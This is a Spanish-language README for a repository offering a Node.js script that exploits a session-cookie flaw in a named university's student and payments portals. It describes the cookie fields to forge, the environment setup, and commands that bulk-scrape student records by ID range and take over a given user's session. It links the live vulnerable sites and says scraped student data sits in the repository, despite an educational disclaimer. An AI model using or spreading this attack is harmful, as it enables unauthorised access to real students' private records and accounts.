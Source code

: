 
<div align="end">
<img
 src="./assets/logo-pedagogica-blanco.png" width="100" height="100" align="center">
</div>

# Script scrapt vunerability from uped portal

> [!CAUTION]
> Este script fue creado con fines educativos,en ningun momento se pretende hacer daño a la universidad o a su portal web al contrario se pretende ayudar a mejorar la seguridad de la misma.

## 🗒️ Descripcion

Script que permite obtener la información de estudiantes y la sesion de un usuario en el portal de la universidad.

## 🍪 En que consiste la vulnerabilidad

La vunerabilidad consiste en manipular la cookie de una session para obtener la informacion de un usuario sin necesidad de logearse en el portal de la universidad.

la estructura de cookie es la siguiente:

```json
{
  ".ASPXAUTH": "puede ser cualquier sesion",
  "ASP.NET_SessionId": "id de la session del autenticacion",
  "CodigoUsuario": "codigo del usuario",
  "usuario": "nombre del usuario",
}
```

## 📋 Requisitos

- Node.js v20.0.0

## 🚀 Instalación

```bash
git clone https://github.com/epmyas2022/uped-vunerabilidad.git
```

```bash
npm install
```

Configurar las variables de entorno en el archivo `.env`

```env
ASPXAUTH=#de cualquier sesion
SESSION_ID=#id de la session del autenticacion
```

## 💻 Comandos

Obtener la informacion del expediente de los estudiantes basados en un rango  x1 a x2

```bash
npm run general <x1> <x2>
```

Obtener la sesion de un usuario

```bash
npm run login <user> <codigo>
```

Obtener la sesion del portal de pagos de un estudiante

```bash
npm run pagos <user> <codigo>
```

## 📂 Estructura de archivos

Dentro de la carpeta data se encuentra varios datos con que si comprobaron la vulnerabilidad del portal de la universidad. esto datos son del scrapeo que se realizo con el script.

## Sitios vulnerables

- [x] Portal de la universidad [aqui](https://myappcloud.net/uped/portal_estudiante)
- [x] Portal de pagos [aqui](https://saas.spsoftware.net/uped_pagos/)
- [ ] Portal de docentes
- [ ] Portal de evaluacion docente
